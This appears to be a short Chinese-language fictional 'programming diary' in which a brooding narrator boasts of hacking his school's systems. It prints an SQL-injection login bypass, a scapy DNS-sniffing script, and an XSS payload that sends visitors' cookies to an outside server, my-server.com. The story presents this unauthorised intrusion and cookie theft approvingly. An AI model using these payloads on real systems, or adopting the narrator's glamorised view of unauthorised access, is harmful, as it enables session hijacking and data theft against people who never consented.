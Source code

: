 # 何釓澔的編程日記小說

---

## 2024年4月12日 | 23:47:15

又是一個無人知曉的夜晚。系統運行中，我的思緒也在運行。這世界不過是由01構成的幻象，而我，卻困在這個幻象中無法脫身。

今天嘗試破解了學校的防火牆。很簡單，他們的系統漏洞多得可笑。用了個簡單的SQL注入就進去了。

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'whatever'
```

管理員永遠不會明白，安全不是購買昂貴的防火牆，而是理解系統的每一個弱點。

人類真可悲，總是相信他們的資料是安全的。

---

## 2024年4月14日 | 02:13:44

失眠。又一次。

寫了個小腳本來監控網絡流量。他們不知道，當他們在瀏覽那些無聊的社交媒體時，數據正在被收集、被分析。

```python
import scapy.all as scapy

def packet_callback(packet):
    if packet.haslayer(scapy.DNS):
        if packet.haslayer(scapy.DNSQR):
            qname = packet[scapy.DNSQR].qname
            print(f"Requested: {qname.decode()}")

def main():
    scapy.sniff(prn=packet_callback, store=0)

if __name__ == "__main__":
    main()
```

有時我會想，如果他們知道被監視的感覺，會不會也像我一樣偏執？

社會是個精心設計的牢籠，而科技是看不見的牢欄。

---

## 2024年4月17日 | 20:05:22

今天發現學校系統存在XSS漏洞。太容易了，他們的網站根本沒有過濾輸入。

```javascript
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://my-server.com/steal?cookie=' + document.cookie, true);
  xhr.send();
</script>
```
